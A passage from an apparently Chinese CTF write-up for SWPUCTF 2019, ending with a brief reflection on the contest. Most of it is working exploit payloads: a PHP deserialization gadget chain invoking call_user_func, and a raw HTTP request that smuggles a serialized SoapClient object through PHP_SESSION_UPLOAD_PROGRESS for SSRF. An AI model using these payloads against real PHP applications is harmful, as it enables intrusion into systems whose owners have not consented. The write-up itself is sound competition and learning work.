 ```html
O:2:"bb":2:{s:4:"mod1";O:2:"aa":2:{s:4:"mod1";N;s:4:"mod2";a:1:{s:5:"test2";O:2:"cc":3:{s:4:"mod1";O:2:"ee":2:{s:4:"str1";O:2:"dd":3:{s:4:"name";N;s:4:"flag";s:3:"123";s:1:"b";s:14:"call_user_func";}s:4:"str2";s:7:"getflag";}s:4:"mod2";N;s:4:"mod3";r:6;}}}s:4:"mod2";N;}
-----------------------------18467633426500--
```

```php
POST /se.php HTTP/1.1
Host: 132.232.75.90
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://localhost/wulalala.html
Content-Type: multipart/form-data; boundary=---------------------------18467633426500
Content-Length: 943
Connection: close
Cookie: PHPSESSID=1c3jq2kqat2d123kv2rl6; user=xZmdm9NxaQ==
Upgrade-Insecure-Requests: 1


-----------------------------18467633426500
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"


baaabb|O:10:"SoapClient":6:{s:3:"uri";s:30:"http://127.0.0.1/interface.php";s:8:"location";s:30:"http://127.0.0.1/interface.php";s:5:"trace";i:1;s:15:"_stream_context";i:0;s:13:"_soap_version";i:1;s:8:"_cookies";a:1:{s:4:"user";a:1:{i:0;s:12:"xZmdm9NxaQ==";}}}
-----------------------------18467633426500
Content-Disposition: form-data; name="file"; filename='aaaaaa'
Content-Type: application/octet-stream


1
-----------------------------18467633426500
Content-Disposition: form-data; name="aa"

O:2:"bb":2:{s:4:"mod1";O:2:"aa":2:{s:4:"mod1";N;s:4:"mod2";a:1:{s:5:"test2";O:2:"cc":3:{s:4:"mod1";O:2:"ee":2:{s:4:"str1";O:2:"dd":3:{s:4:"name";N;s:4:"flag";s:8:"get_flag";s:1:"b";s:14:"call_user_func";}s:4:"str2";s:7:"getflag";}s:4:"mod2";N;s:4:"mod3";r:6;}}}s:4:"mod2";N;}
-----------------------------18467633426500--
```

![](https://wulasite.top/mdimage/swpuctf2019/14.png)

## 总结

这次比赛又是爆肝的比赛，周末只睡了4、5个小时，不过有所回报，已经是很好的情况了。这次虽然做的很好，但是还是在速度和搜索能力上有所欠缺，自己还有很多短处，需要补足。

